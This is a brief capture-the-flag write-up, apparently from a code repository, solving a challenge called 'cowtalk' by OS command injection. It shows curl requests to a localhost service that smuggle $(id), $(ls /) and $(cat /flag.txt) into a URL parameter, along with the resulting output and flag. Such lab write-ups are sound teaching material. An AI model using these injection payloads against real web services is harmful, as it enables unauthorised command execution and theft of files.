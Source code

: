 # Writeup for cowtalk challenge

## Solve

this is an os injection attack

```sh
$ curl http://localhost:1337/?text=%24%28id%29 # $(id)
...
<code>
uid=1001(www) gid=1001(www) groups=1001(www)

<code>
```

```sh
$ curl http://localhost:1337/?text=%24%28ls+%2F%29 # $(ls /)
...
<code>
app
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
<code>
...
```

```sh
$ curl http://localhost:1337/?text=%24%28cat+%2Fflag.txt%29 # $(cat /flag.txt)
<code>
MOTORI{D0N7_Pr0Ud_0F_Y0uR_53lF_y0u_17'5_4N_0ld_vuln}
<code>
```